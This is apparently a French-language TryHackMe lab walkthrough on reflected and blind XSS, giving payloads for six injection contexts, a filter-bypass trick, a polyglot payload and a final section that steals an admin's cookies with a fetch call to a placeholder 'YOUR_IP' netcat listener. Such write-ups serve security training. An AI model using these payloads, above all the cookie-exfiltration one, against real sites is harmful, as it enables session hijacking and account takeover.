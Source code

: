 # 🛡️ TryHackMe – XSS Walkthrough (Payload THM)

Ce document récapitule les différents niveaux de la machine TryHackMe sur l'exécution de **payloads XSS** afin d’afficher un `alert('THM')`. On y explore les cas typiques de failles XSS **reflected** avec filtrage, injection dans attributs ou dans du JavaScript inline.

---

## 🎯 Objectif général

- Déclencher une alerte `alert('THM')` à chaque niveau.
- Comprendre les types de contextes d'injection : HTML, attribut, JavaScript, filtré, etc.
- Appliquer un payload adapté à chaque situation.

---

## 🧪 Niveaux & Payloads

### 🔹 Niveau 1 – Injection simple dans le HTML

**Contexte :** Le nom est injecté directement dans le corps HTML.

**Payload :**
```html
<script>alert('THM');</script>
```

---

### 🔹 Niveau 2 – Injection dans un attribut `value=""`

**Contexte :** Le nom est injecté dans l’attribut `value` d’un champ `<input>`.

**Payload :**
```html
"><script>alert('THM');</script>
```

**Explication :** Le `">` ferme l’attribut `value="`, puis le `script` est injecté.

---

### 🔹 Niveau 3 – Injection dans une balise `<textarea>`

**Contexte :** Le texte est injecté dans une balise `<textarea>`.

**Payload :**
```html
</textarea><script>alert('THM');</script>
```

**Explication :** On ferme le `<textarea>`, puis on injecte le `<script>`.

---

### 🔹 Niveau 4 – Injection dans du JavaScript inline

**Contexte :** Le nom est intégré dans une variable JS inline.

**Payload :**
```js
';alert('THM');// 
```

**Explication :**
- `'` ferme la chaîne.
- `;` termine l’instruction JS.
- `//` commente le reste.

---

### 🔹 Niveau 5 – Filtrage de mot-clé `script`

**Contexte :** Le mot `script` est supprimé automatiquement.

**Payload contournement :**
```html
<sscriptcript>alert('THM');</sscriptcript>
```

**Explication :** Le filtre supprimant `script`, le doublement contourne la détection.

---

### 🔹 Niveau 6 – Injection avec filtre `<` et `>` bloqués

**Contexte :** On ne peut pas injecter de balises `<script>` directement.

**Payload avec `onload`:**
```html
/images/cat.jpg" onload="alert('THM');
```

**Explication :** Utilisation d’un événement `onload` dans un tag `<img>`.

---

## 🧪 Payload Polyglot Universel

Un payload XSS "polyglot" peut fonctionner dans de multiples contextes, même avec des filtres :

```js
jaVasCript:/*-/*`/*\`/*'/*"/**/(/* */onerror=alert('THM') )//%0D%0A%0d%0a//</stYle/</titLe/</teXtarEa/</scRipt/--!>\x3csVg/<sVg/oNloAd=alert('THM')//>\x3e
```

---

## 🏁 Résumé

| Niveau | Contexte                        | Payload                                     |
|--------|----------------------------------|---------------------------------------------|
| 1      | HTML direct                      | `<script>alert('THM');</script>`            |
| 2      | Input `value=""`                | `"><script>alert('THM');</script>`          |
| 3      | Balise `<textarea>`             | `</textarea><script>alert('THM');</script>` |
| 4      | JavaScript inline               | `';alert('THM');//`                          |
| 5      | Filtrage de `script`            | `<sscriptcript>alert('THM');</sscriptcript>`|
| 6      | Filtrage `<`, `>` contourné via `onload` | `/images/cat.jpg" onload="alert('THM');`     |

---

## 🔍 Bonus – Blind XSS & Cookie Stealing

Dans cette dernière tâche, on exploite une **faille de type Blind XSS** dans le système de création de ticket support.

### 🔧 Étapes pratiques :

1. Accède au site cible :  
   `https://10-10-186-81.p.thmlabs.com`

2. Crée un compte via **Customers > Signup**.

3. Va sur **Support Tickets**, clique sur **Create Ticket**, et entre :
   - Subject : `test`
   - Content : `</textarea><script>alert('THM');</script>`

4. Le `alert('THM')` prouve la faille XSS sur un champ censé être sécurisé.

---

### 🎯 Exploitation : Cookie Stealing via Blind XSS

1. Prépare un listener avec Netcat sur l’AttackBox :
```bash
nc -nlvp 9001
````

2. Payload XSS à injecter dans un ticket :

```html
</textarea><script>fetch('http://YOUR_IP:9001?cookie=' + btoa(document.cookie));</script>
```

🔸 Remplace `YOUR_IP` par l’IP de l’AttackBox (ou catcher).
🔸 Tu recevras une requête contenant les cookies en base64.

3. Décode sur :
   [https://www.base64decode.org/](https://www.base64decode.org/)

---

### ✅ But : Obtenir les cookies d’un **admin/staff** consultant le ticket → escalade de privilèges possible.

